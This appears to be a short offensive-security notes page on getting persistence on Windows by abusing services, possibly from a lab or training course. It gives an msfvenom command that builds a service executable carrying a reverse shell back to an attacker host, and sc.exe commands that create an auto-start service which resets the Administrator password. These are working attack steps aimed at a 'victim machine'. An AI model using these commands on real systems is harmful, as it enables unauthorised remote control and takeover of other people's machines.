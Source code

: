 # Windows Persistence Abusing Services

Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started. If we can leverage any service to run something for us, we can regain control of the victim machine each time it is started.

## Creating backdoor services

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$ATTACKER_IP LPORT=$LPORT -f exe-service -o rev-svc.exe
```

```powershell
sc.exe create <servicename> binPath= "net user Administrator Passwd123" start= auto
sc.exe start <servicename>
```
